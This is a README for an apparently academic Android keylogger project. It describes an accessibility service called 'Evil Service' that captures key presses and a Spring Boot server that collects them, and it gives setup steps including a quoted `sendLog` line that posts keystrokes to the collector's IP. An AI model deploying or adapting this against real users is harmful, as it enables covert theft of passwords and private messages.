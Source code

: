 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
![Keylogger.png](./diagrams/Keylogger.png)

## Usage
1. Deploy `keylogweb` application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare `keylogapp` for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    1. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. Build APK and Install it on your Android Device
4. You should enable `Evil Service` which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named `Evil Service` is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see `Evil Service` under Downloaded Services. You should enable Evil Service from there. Then it will works.
5. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. \
   **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)

